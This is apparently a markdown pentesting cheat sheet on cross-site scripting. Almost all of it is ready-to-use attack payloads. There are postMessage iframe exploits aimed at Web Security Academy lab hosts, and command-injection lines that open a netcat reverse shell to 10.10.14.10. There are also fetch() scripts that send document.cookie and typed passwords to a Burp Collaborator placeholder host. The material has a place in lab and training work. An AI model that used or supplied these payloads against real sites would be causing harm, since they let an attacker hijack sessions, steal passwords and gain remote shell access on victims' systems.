 ## XSS from `event listener`
If there is a listener on the page, we can create a web page and put an `iframe` in it with an xss payload.

	<iframe src="https://ac091f701f05d96b80b84d0600b400a5.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(document.cookie)>','*')">

	<iframe src="https://ac0b1ffd1f1a90f780e1174c00210000.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//http:','*')">

	<iframe src="https://ace91f0b1f1e90a980341c9f0024003a.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(document.cookie)\"}","*")'>

## GETTING RCE / SHELL FROM XSS
https://www.youtube.com/watch?v=2BvuoWG_r9Y  

- Try to include some external links inside an html tag  

		<img src=http://10.10.14.10/test.jpg />

- Try to include some malicious code inside the url  

		curl http://10.10.14.xx/$(whoami)
		curl http://10.10.14.xx/$(ping$IFS-c$IFS1$IFS10.10.14.10)
		curl http://10.10.14.10/$(nc.traditional$IFS-e/bin/sh$IFS'10.10.14.10'$IFS'2222')

- The same can be done without curl  

		<img src=http://10.10.14.10/$(nc.traditional$IFS-e/bin/sh$IFS'10.10.14.10'$IFS'2222') />

## Send a cookie from an `xss` vulnerability

```
<script>
	fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
		method: 'POST',
		mode: 'no-cors',
		body:document.cookie
	});
</script>
```

## Send a password from an xss vulnerability

```
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
	method:'POST',
	mode: 'no-cors',
	body:username.value+':'+this.value
});">
```
